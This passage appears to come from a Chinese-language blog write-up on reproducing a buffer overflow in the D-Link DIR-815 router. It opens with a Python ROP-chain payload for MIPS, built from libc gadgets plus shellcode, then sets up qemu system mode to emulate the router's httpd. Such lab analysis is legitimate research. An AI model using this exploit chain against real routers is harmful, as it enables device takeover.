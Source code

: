 ```
payload += 'A' * 4                        # s3
payload += p32(libc_base + gadget4)       # s4 = mipsrop.find("move $t9,$s1") &amp;&amp; jr shellcode
payload += 'A' * 4                           # s5
payload += 'A' * 4                        # s6
payload += 'A' * 4                        # s7
payload += 'A' * 4                        # fp
payload += p32(libc_base + gadget1)       # fisrt_ra = mipsrop.find("li $a0,1") &amp;&amp; jr s1
payload += 'B' * 0x24 # mipsrop.tail() 0x24B padding
payload += p32(libc_base + gadget3)       # $(sp+0x24) = mipsrop.stackfinder() &amp;&amp; move s1,$(sp+0x18) &amp;&amp; jr $s4

payload += 'c' * 0x18 # mipsrop.stackfinder() 0x18B padding
payload += shellcode
```

调试结果显示能够进入到Shellcode去执行。

[![](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/shellcode.png)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/shellcode.png)

但是之后一直出不去，获取不到shell。

[![](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/shellcode2.png)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/shellcode2.png)

所以到目前为止，利用qemu用户模式还没有成功获取shell！！！



## 05-qemu系统模式

我们这里主要是为了在qemu虚拟机中重现http服务。通过查看文件系统中的`/bin、/sbin、/usr/bin、/usr/sbin`可以知道`/sbin/httpd`应该是用于监听web端口的http服务，同时查看`/htdocs/web`文件夹下的cgi文件和php文件，可以了解到接受到的数据通过php+cgi来处理并返回客户端。

### <a class="reference-link" name="5.1-%E7%8E%AF%E5%A2%83%E9%85%8D%E7%BD%AE"></a>5.1-环境配置

`find ./ -name '*http*'`找到web配置文件httpcfg.php。

```
./etc/services/HTTP/httpcfg.php
./etc/services/HTTP/httpsvcs.php
./usr/sbin/httpc
./sbin/httpd
```

查看httpcf.php

```
Umask 026
PIDFile /var/run/httpd.pid
#LogGMT On
#ErrorLog /dev/console

Tuning
`{`
    NumConnections 15
    BufSize 12288
    InputBufSize 4096
    ScriptBufSize 4096
    NumHeaders 100
    Timeout 60
    ScriptTimeout 60
`}`

```